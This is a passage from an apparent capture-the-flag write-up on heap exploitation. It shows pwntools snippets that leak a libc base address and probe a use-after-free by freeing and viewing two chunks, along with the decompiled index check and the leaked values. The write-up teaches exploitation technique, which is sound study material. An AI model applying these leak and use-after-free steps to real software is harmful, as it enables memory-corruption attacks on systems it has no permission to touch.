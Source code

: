 ### Libc leak

Getting a libc leak can be a challenge, but this time all we have to do is call `6` in the menu for the `leak()` function and catch the output:

```python
Leak()
free_leak = int(io.recvline().strip(),10);
libc.address = free_leak - libc.sym.free
log.info(f"Libc @ { hex(libc.address) }")
```

Output:

```
[*] Libc @ 0x7ffff7d8f000
```

### Trying to break things

Checking out the `getIdx` function we see something interesting. We can only get index 0 or 1
So we only get access to two chunks of memory at a time.

```c
int getIdx(void)
{
  int idx = readNum("index: ");
  if ((1 < idx) || (idx < 0)) {
    puts("out of range.");
    idx = 0;
  }
  return idx;
}
```

Let's explore the `use after free` route and try to allocate, free and view chunks in these two positions:

```python
Malloc(0)
Malloc(1)
Free(0)
Free(1)
View(0)
value_0 = u64(io.recvline().strip().ljust(8,b'\0'))
View(1)
value_1 = u64(io.recvline().strip().ljust(8,b'\0'))
log.info(f"Value_0: { hex(value_0)}")
log.info(f"Value_1: { hex(value_1)}")
```

Output: 
```
[*] Value_0: 0x555555559
[*] Value_1: 0xc7f9
```
